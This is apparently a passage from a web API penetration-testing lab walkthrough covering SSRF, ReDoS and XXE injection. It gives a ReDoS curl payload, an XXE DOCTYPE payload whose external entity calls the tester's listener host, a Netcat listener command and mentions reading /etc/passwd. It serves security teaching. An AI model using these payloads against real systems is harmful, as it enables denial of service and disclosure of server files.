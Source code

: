```
```
When you make the API call, you will notice a connection being made to your Netcat listener. The API is vulnerable to SSRF.
# Regular Expression Denial of Service (ReDoS)
Suppose we have a user that submits benign input to an API. On the server side, a developer could match any input against a regular expression. After a usually constant amount of time, the API responds. In some instances, an attacker may be able to cause significant delays in the API's response time by submitting a crafted payload that tries to exploit some particularities/inefficiencies of the regular expression matching engine. The longer this crafted payload is, the longer the API will take to respond. Exploiting such "evil" patterns in a regular expression to increase evaluation time is called a Regular Expression Denial of Service (ReDoS) attack.
The API resides in `http://<TARGET IP>:3000/api/check-emai`l and accepts a parameter called email.
Let's interact with it as follows.
Let's submit the following valid value and see how long the API takes to respond.
```
curl "http://<TARGET IP>:3000/api/check-email?email=jjjjjjjjjjjjjjjjjjjjjjjjjjjj@ccccccccccccccccccccccccccccc.55555555555555555555555555555555555555555555555555555555."
```
You will notice that the API takes several seconds to respond and that longer payloads increase the evaluation time.
The difference in response time between the first cURL command above and the second is significant.
The API is undoubtedly vulnerable to ReDoS attacks.
# XML External Entity (XXE) Injection
XML External Entity (XXE) Injection vulnerabilities occur when XML data is taken from a user-controlled input without properly sanitizing or safely parsing it, which may allow us to use XML features to perform malicious actions. XXE vulnerabilities can cause considerable damage to a web application and its back-end server, from disclosing sensitive files to shutting the back-end server down.
Suppose we are assessing such an application residing in `http://<TARGET IP>:3001`.

By the time we browse `http://<TARGET IP>:3001`, we come across an authentication page.

Activate burp suite's proxy (Intercept On) and configure your browser to go through it.

Now let us try authenticating. We should see the below inside Burp Suite's proxy.
DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document. A DOCTYPE declaration can also be used to define special characters or strings used in the document. The DTD is declared within the optional DOCTYPE element at the start of the XML document. Internal DTDs exist, but DTDs can be loaded from an external resource (external DTD).
Let us try crafting an exploit to read internal files such as /etc/passwd on the server.

First, we will need to append a DOCTYPE to this request.

What is a DOCTYPE?
We defined a DTD called pwn, and inside of that, we have an `ENTITY`. We may also define custom entities (i.e., XML variables) in XML DTDs to allow refactoring of variables and reduce repetitive data. This can be done using the `ENTITY` keyword, followed by the ENTITY name and its value.

We have called our external entity `somename`, and it will use the SYSTEM keyword, which must have the value of a URL, or we can try using a URI scheme/protocol such as `file://` to call internal file
Our current payload is:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pwn [<!ENTITY somename SYSTEM "http://<VPN/TUN Adapter IP>:<LISTENER PORT>"> ]>
<root>
<email>test@test.com</email>
<password>P@ssw0rd123</password>
</root>
```
Let us set up a Netcat listener as follows.
```
nc -lvnp 4444
```